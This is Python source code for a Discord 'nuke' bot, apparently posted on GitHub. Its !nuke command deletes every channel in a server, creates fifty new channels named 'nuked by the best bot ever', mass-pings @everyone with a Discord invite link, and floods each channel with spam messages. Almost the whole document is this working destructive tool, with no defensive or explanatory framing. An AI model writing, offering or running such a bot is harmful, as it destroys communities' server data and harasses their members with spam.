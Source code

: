 import discord
import asyncio
from discord.ext import commands

intents = discord.Intents.all()
bot = commands.Bot(command_prefix='!', intents=intents)

# Nuke variables
count_message = 1000
send_message_channels = 500
message = '@everyone got nuked by the best bot ever'
channel_create = 50
channel_name = 'nuked by the best bot ever'

# Nuke command
@bot.command()
async def nuke(ctx):
    await ctx.send(f"Nuking this server @everyone")

    # Delete all channels
    for channel in ctx.guild.channels:
        await channel.delete()

    # Create new channels
    for _ in range(channel_create):
        await ctx.guild.create_text_channel(channel_name)
    
    # Mass ping everyone
    for channel in ctx.guild.text_channels:
        await channel.send("@everyone https://discord.com/invite/JXj4upzNGb")
        await asyncio.sleep(0.10)  # Add a delay between pings

    # Spam messages in each channel
    for channel in ctx.guild.text_channels:
        for _ in range(15):  # Adjust the number of spam messages
            try:
                await channel.send(message)
            except discord.Forbidden:
                pass  # Bot doesn't have permission to send messages in the channel

bot.run("Your_Bot_Token_Here")
